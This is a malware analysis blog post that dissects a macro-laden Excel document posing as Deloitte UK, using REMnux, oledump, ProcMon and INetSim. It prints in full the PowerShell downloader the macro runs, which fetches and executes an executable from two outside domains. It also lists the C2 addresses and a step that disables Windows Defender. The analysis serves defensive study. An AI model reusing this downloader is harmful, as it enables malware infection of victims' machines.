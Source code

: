 # Happy Little Maldocs

For my first post, I though I might share something that seems to be making the rounds lately (warning: this may be a little long-winded as I explain my analysis process for the first time). With social engineering being one of the most prevalent ways to spread malware, this sample takes full advantage. This particular campaign seems to disguise itself as Deloitte UK attempting to get the victim to open an Excel document. Here is the VirusTotal report for that document: ![VirusTotal Report](/assets/images/happy_maldocs/hlm_vt.jpg)

A few key points from that report are:
1. The document opens a shell and possibly runs other applications
2. Makes use of macros
3. Automatically runs commands when the file is opened

One of my favorite tools to use for examining malicious documents is [REMnux by Lenny Zeltser](https://remnux.org/). REMnux comes pre-loaded with a bunch of awesome tools, and one of the first ones I use to examine malicious documents is [oledump.py by Didier Stevens](https://blog.didierstevens.com/programs/oledump-py/). This tool will tell you a lot about the objects that make up a document and is especially useful for finding malicious components. So let's get started!

The first command we'll use is the following:

`oledump.py sample.xls`
![oledump.py results on Remnux](/assets/images/happy_maldocs/remnux_oledump.JPG)

 This tells us that OLE streams 7,8,9,10,18,20,21,22 have VB script in them, so let's extract that using this command, where STREAM_NUMBER represents one of the previously listed values:

`oledump.py -v -s STREAM_NUMBER sample.xls`

 With the VB extracted, we should now be able to find the malicious function. Admittedly, I am not as adept at Visual Basic as I could be, but I know enough to know that a shell call shouldn't be here!

![VisualBasic calling shell](/assets/images/happy_maldocs/vb_shell_call.JPG)

Even without knowing much VB, it is clear that this Excel file opens a shell of some sort, so let's run it in a VM to verify. Thanks to Microsoft, you can get free 90-day virtual images of every OS since Windows 7 (all in 32-bit)! I used a Windows 7 VM loaded with Office, Sysmon, and I threw ProcMon on there for good measure. Once loaded, the document indeed opens a shell, noted by ProcMon's capture:
![ProcMon capturing Excel creating a shell](/assets/images/happy_maldocs/procmon_excel_launch_powershell.JPG)

`powershell "'powershell ""function better([string] $qqqqqqqq_qqqqqq74_qqq){(new-object system.net.webclient).downloadfile($qqqqqqqq_qqqqqq74_qqq,''C:\Users\IEUser\AppData\Local\Temp\work.exe'');start-process ''C:\Users\IEUser\AppData\Local\Temp\work.exe'';}try{better(''http://carasaan.com/conte.ntet'')}catch{better(''http://mustardcafeonline.com/conte.ntet'')}'"" | out-file -encoding ascii -filepath C:\Users\IEUser\AppData\Local\Temp\qeneral.bat; start-process 'C:\Users\IEUser\AppData\Local\Temp\qeneral.bat' -windowstyle hidden"`

So now we can see it attempts to download a file. Using REMnux again, we can setup a server that will deliver the file to the victim VM, allowing us to proceed further. To do this, we have configured REMnux to use a static IP address. Then, we use a handy script, `accept-all-ips start eth0` that configures REMnux to receive all incoming connections. To handle those connections, we use INetSim. I also configured INetSim to deliver the file mentioned in the previous Powershell command, so that when the victim VM sends an HTTP GET request for the file, it will be delivered as if the victim connected to the real domain. The following screenshots show the requests:
![Wireshark showing payload download](/assets/images/happy_maldocs/wireshark_get_payload_and_ip.JPG)

![INetSim results of payload download](/assets/images/happy_maldocs/inetsim_gets.JPG)

You can also see from the above screenshots that something starts attempting to find the victim's IP address. Note: I had configured REMnux to deliver the malware by default, hence the multiple downloads. With my current configuration, the IP address would not be delivered to the victim, so I opened it up to the internet to see what happens once it is able to retrieve the address.

![WireShark showing payload download and TLS outbound connection](/assets/images/happy_maldocs/wireshark_get_ip_to_tls.JPG)

It appears that the sample retrieves the IP address then sets up a TLS connection. Where does it connect to? Luckily Sysmon caught the connections. 

- 23.94.41.215:443
- 185.68.93.117:447

At the same time these connections are happening, the payload attempts to stop and delete the WinDefend service:

![ProcMon showing nasty process trying to stop Windows Defender](/assets/images/happy_maldocs/procmon_stop_windefend.JPG)

Without decrypting the SSL, we can see that there are some large downloads occurring. If you watch while those connections are happening, you also notice that some other files get downloaded to the computer. These consist of modules and configuration files.

![Windows File Explorer output showing modules in their download location](/assets/images/happy_maldocs/modules.JPG)
![Windows File Explorer output showing modules in their download location](/assets/images/happy_maldocs/modules_list.JPG")

There are four modules that get downloaded to the victim's computer:
- injectDll32
- networkDll32
- shareDll32
- systeminfo32

*injectDll32* and *networkDll32* also had configuration files downloaded. These files are under their respective modules' folder names. Each configuration file is named the following:
- dinj
- sinj
- dpost

Well, that's all I have time for this go around. Hopefully this post shows some useful tools that will make malware analysis much easier and gives insight into how this malware performs. In the future I will plan to go a little deeper in the analysis, but for my first post I really just want to get used to writing again. So thanks for taking the time to read!

 The SHA256 hash for this sample is: `71f675a68e937f2cb69e29a3c36726cc2f0940451e364e06e8aa460638d7c50c`

_This post was originally written on 16 Dec 2018. It was moved on 03 Feb 2022._
